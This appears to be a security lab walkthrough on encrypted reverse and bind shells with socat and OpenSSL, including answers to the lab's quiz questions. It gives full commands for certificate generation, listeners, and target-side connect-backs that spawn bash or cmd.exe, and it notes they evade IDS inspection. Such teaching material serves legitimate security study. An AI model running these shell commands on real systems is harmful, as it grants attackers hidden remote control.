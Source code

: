 - Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.
- . Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells.
- We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
```
// creating a 2048 bit rsa key with matching cert file, self-signed, and valid for just a year

openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
File the data blank or randomly
```

We then need to merge the two created files into a single `.pem` file:
```
cat shell.key shell.crt > shell.pem
```

Now we can set up our reverse shell listener;
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - 
```
  
This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority.

To connect back;
```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

We can use the same for a bind shell;
```
// target 
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

// attacker
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

  
What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

```
_socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0_
```

**If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?**

```
_socat OPENSSL:10.10.10.5:53,verify=0 EXEC:”bash -li”,pty,stderr,sigint,setsid,sane_
```

#### Common Shell Payloads
